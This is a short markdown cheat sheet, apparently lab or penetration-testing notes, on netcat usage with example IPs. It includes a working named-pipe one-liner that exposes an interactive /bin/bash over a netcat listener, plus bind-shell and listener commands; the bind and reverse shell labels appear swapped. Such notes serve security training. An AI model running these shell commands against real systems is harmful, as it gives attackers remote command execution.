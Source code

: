 ## Netcat Usage

```bash
sudo nc -nv -s PWNIP -p53 STMIP 50000
```

Initiates a Netcat connection from PWNIP on port 53 to STMIP on port 50000.

## Bind Shell (Attacker with Client)

```bash
nc -nv 10.129.41.200 7777
```

### Reverse Shell (Victim with Server)

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

---

## Basic TCP connection

### Server

Server open a listening port at 6666

```bash
nc -lvnp 6666
```

### Client

Client connects to the server on port 6666

```bash
nc -nv 10.129.201.134 6666
```
